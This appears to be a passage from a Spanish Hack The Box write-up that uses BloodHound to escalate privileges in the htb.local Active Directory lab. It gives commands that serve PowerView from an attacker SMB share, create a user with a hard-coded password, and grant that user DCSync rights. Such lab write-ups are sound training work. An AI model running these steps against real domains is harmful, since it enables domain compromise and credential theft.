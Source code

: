![Pasted image 20250313145841](https://github.com/user-attachments/assets/754baee3-e13f-44b3-94ce-1839898e69a6)

Por ejemplo, para este caso, nos confirma lo que vimos en el diagrama: los miembros del grupo "Account Operators"  tienen el privilegio GenericAll sobre el grupo "Exchange Windows Permissions".

![Pasted image 20250313145901](https://github.com/user-attachments/assets/377eeedf-f904-4fc7-9510-40c5441ef6f1)


A su vez, si queremos ver la relación que hay entre el grupo "Exchange Windows Permissions" y el dominio a través del privilegio WriteDacl, hacemos nuevamente click derecho -> help. A su vez, esto nos permite conocer la forma de explotar este privilegio:

![Pasted image 20250313153133](https://github.com/user-attachments/assets/9dd7375f-0129-49da-94cb-4e7eb4c7cf98)


En el apartado "Windows Abuse" nos explica el paso a paso para hacerlo desde dentro.

Si observamos la información que nos facilita BloodHound para la explotación de este privilegio, vemos que necesitamos compartir powerview.ps1 para hacer uso de Add-DomainObjectAcl. Para ello:

- En máquina atacante abrimos smbserver (en el directorio donde tengamos powerview.ps1):
  
``impacket-smbserver -smb2support test .``

- Solicitamos el recurso desde máquina víctima:
  
``copy //10.10.14.4/test/powerview.ps1 powerview.ps1``

Una vez ya lo tenemos en la máquina víctima, comenzamos.

- Creamos usuario pwn:

![Pasted image 20250313155139](https://github.com/user-attachments/assets/ac343399-b976-450b-b7b6-e9dcf5a596c8)


- Le añadimos al grupo "Exchange Windows Permissions"

![Pasted image 20250313155200](https://github.com/user-attachments/assets/7d6bbb74-0109-4c93-9bda-3dad81c731ee)

Y seguimos los comandos propuestos por Bloodhound, pero adaptados a nuestro escenario (dominio y usuario):

```
$SecPassword = ConvertTo-SecureString 'pwned123!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\pwn', $SecPassword)
```

Importamos powerview.ps1 para poder hacer uso de Add-DomainObjectAcl:

``. .\powerview.ps1``

Otorgamos privilegios DCSync al usuario pwn:

``Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity pwn -Rights DCSync``

Inciso importante.

Aquí bloodhound propone ejecutar el anterior comando identificando al dominio de la siguiente forma: ``-TargetIdentity htb.local``. Sin embargo, cuando se realiza la técnica DCSync desde el usuario pwn, nos salta error mencionando el Distinguised Name.
Error:
